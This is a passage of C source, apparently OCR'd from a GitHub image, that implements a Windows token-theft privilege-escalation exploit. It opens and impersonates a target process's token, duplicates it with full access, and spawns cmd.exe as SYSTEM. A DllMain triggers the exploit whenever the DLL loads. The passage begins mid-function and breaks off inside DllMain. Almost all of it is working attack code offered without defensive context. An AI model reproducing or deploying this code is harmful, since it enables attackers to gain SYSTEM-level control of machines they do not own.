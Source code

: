 ```c

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
			exploit();
			exit(-1);
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
```
